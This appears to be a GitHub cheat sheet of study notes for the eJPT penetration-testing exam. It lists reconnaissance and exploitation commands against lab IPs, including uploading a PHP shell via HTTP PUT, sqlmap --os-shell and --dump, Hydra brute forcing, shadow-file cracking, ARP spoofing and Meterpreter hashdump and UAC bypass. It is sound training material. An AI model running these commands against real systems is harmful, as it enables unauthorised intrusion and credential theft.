 ## eJPT Notes
**This will guide you through all the tools which will be helpful for your preparation and the exam. Make sure to replace the ip addresses and port numbers when you use it**

------------
**Routing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ip route add ROUTETO via ROUTEFROM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**whois**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whois site.com
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Ping Sweep**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fping -a -g 10.10.10.0/24 2>/dev/null
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sn 10.10.10.0/24
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Nmap Scans**
**OS Detection**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -Pn -O -T4 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV -T4 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Full)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV -T4 -p- 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (UDP Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sU -sV -T4 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Banner Grabbing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**OpenSSL for HTTPS services**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Httprint**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**HTTP Verbs**
GET, POST, HEAD, PUT, DELETE, OPTIONS
Use the OPTIONS verb to see what other verbs are available
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc 10.10.10.10 80
OPTIONS / HTPP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can use HTTP verbs to upload a php shell. Find the content length, then use PUT to upload the shell. Make sure you include the size of the payload when using the PUT command.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
wc -m shell.php
x shell.php


PUT /shell.php
Content-type: text/html
Content-length: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Directory and File Scanning**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirsearch.py -u http://10.10.10.10 -e *
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirb http://10.10.10.10/ -u username:pass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Advanced Google Searches**
`site:`
`intitle:`
`inurl:`
`filetype:`
`AND, OR, &, |, -`

------------


**Cross Site Scripting (XSS)**
Steps:
1. Find a reflection point
2. Test with `<i>` tag
3. Test with HTML/JavaScript code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<script>alert(1)</script>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Reflected XSS:**
Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload
**Persistent XSS:**
Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

------------


**SQLMap**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --os-shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --dump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------

**Password Attacks**
Unshadow
This prepares a file for use with John the Ripper

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
unshadow passwd shadow > unshadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Hash Cracking**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john -wordlist /path/to/wordlist -users=users.txt hashfile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Network Attacks**
**Brute Forcing with Hydra**
replace ‘ssh’ with any relevant service

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt telnet://10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Windows Shares Using Null sessions**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmblookup -A 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**List shares**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L //10.10.10.10 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Mount share:**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient //10.10.10.10/share -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
enum4linux -a 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**ARP spoofing**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 1 > /proc/sys/net/ipv4/ip_forward
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Metasploit**
Basic Metasploit Commands

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Meterpreter**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
background

sessions -l

sessions -i 1

sysinfo, ifconfig, route, getuid

getsystem (privesc)

bypassuac

download x /root/

upload x C:\\Windows

shell

use post/windows/gather/hashdump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


